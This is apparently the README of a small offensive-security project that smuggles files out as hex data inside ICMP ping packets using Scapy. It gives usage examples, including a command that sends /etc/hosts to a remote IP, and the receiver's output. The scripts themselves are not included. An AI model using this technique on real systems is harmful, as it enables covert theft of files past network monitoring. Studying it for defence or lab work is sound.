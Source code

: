 # ICMP-Data-Exfiltration

This program is used to send data over the network within "ICMP Packets", with the help of the "PING" command.
we can send any type of file over the network between two hosts with the help of this script.


## Requirements
Need to have the [Scapy] library installed to sniff packets on the network.

### Installations
```bash 

pip3 install scapy

```

## Examples of How To Use
The program works with two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any "ICMP packets" that are coming towards our host machine, once we start receiving packets
this script will automatically decode the message and print it to the display.

Second file "icmp_sendData.py", with the help of this script we can send any type of file we want to another host 
where it is listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" 
to the script, and it will automatically convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

┃  [!] Usage icmp_exfiltration.py <Interface-Name>                             
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

┃  [!] Usage icmp_sendData.py <IP-Address> <File-Name>                       
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py wlan0

┃ [*] Listening for any incoming connections...

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```
First we run the "icmp_exfiltration.py" file specifying which interface we want to listen on.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

┃  [+] Trying to send file...

┃  [+] File sent successfully.                        
```
Then from another host we will run the "icmp_sendData.py" script by providing the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.


